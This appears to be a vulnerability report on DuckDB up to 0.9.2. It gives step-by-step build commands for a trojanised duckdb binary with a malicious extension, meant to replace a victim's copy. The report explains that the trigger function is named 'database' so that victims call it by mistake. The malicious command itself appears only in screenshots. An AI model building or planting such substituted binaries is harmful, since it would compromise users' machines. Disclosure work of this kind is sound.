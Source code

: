 ### Summary
In the DuckDB database, there is a feature for writing custom extensions. Attackers can write a custom extension containing malicious commands based on the DuckDB extension template(https://github.com/duckdb/extension-template). While compiling this malicious extension, a duckdb binary program containing this malicious extension will also be generated. Attackers can replace the normal duckdb program on the victim's machine with this malicious extension. When the victim starts this malicious duckdb program and executes a specific SQL statement, the malicious command will be triggered.

### Impact
https://github.com/duckdb/duckdb，<=0.9.2

# Install vcpkg
```shell
git clone https://github.com/Microsoft/vcpkg.git
./vcpkg/bootstrap-vcpkg.sh
export VCPKG_TOOLCHAIN_PATH=`pwd`/vcpkg/scripts/buildsystems/vcpkg.cmake
```

## Clone the malicious extension
```shell
git clone --recurse-submodules https://github.com/Tu0Laj1/database_test.git
cd database_test
```

### Modify file
Modify src/quark_extension.cpp,modify the file content to a custom malicious command,and modify the extension function name
```sh
vim src/quack_extension.cpp
```
<img width="422" alt="企业微信截图_17032404145324" src="https://github.com/Tu0Laj1/database_test/assets/154296962/c727d9db-3acd-4bde-b92b-cc0c7ce07bcb">

### Build the malicious extension
Now to build the malicious extension, run:
```sh
make
```

## Running the malicious duckdb
/database_test/build/release/duckdb, a malicious duckdb containing malicious extension programs, can be copied and run on any machine. Attackers can replace the victim's normal duckdb with this malicious duckdb
```sh
cd database_test
./build/release/duckdb
```

### Running the malicious extension
When the victim runs a malicious duckdb and the executed SQL statement contains the function name defined by the attacker, the malicious command will be executed. (Why did I choose 'database'? Because 'database/databases' is a function included in many other databases, but it is not available in duckdb, so the probability of victims mistakenly triggering malicious commands will be increased.)
```sh
select database();
```
<img width="465" alt="企业微信截图_1703465596446" src="https://github.com/Tu0Laj1/database_test/assets/154296962/3c1ecb9c-f531-4355-b8e4-be908ac19179">

Of course, when you place this duckdb containing malicious extensions on a Linux host to run, you may need to install additional dependency components, such as GLIBC, etc
